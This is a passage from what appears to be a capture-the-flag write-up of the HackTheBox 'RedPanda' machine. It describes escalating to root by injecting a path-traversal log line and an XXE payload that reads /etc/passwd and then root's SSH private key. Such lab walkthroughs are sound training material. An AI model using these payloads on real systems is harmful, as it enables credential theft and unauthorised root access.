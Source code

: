 For the jpeg file, we can use exiftool to write the metadata that we want.
![Changing the exif data]({{site.baseurl}}/assets/img/HTB/redpanda/exif_change.png){: .center-image}

And now for the XML file, we copy an existing XML file and just add our XXE payload.

And then we test the attack by leaking /etc/passwd.  
The attack is triggered by the line being added to the logs (by using echo from the reverse shell) and then waiting for the credit_score process to run.
This is the command that we are using to inject the log that triggers the exploit:

{% highlight bash %}
echo '304||10.10.14.15||Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36||/../../../../../../tmp/1337.jpg' > /opt/panda_search/redpanda.log
{% endhighlight %}

Here's an example of the XML file before and after the credit_score process ran. 
![Demo attack: leaking /etc/passwd]({{site.baseurl}}/assets/img/HTB/redpanda/etc_passwd.png){: .center-image}

We can now tweak this in order to get the SSH key for the root user.

### Getting the root flag

Now we can alter the payload and get the private key used by the root account.
For that we'll replace this line
{% highlight xml %}
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
{% endhighlight %}
With this one 
{% highlight xml %}
<!DOCTYPE foo [<!ENTITY example SYSTEM "/root/.ssh/id_rsa"> ]>
{% endhighlight %}

![Getting root's SSH key]({{site.baseurl}}/assets/img/HTB/redpanda/root_key.png){: .center-image}

And we can now login as root and get the root flag.
![Getting the root flag]({{site.baseurl}}/assets/img/HTB/redpanda/root_flag.png){: .center-image}
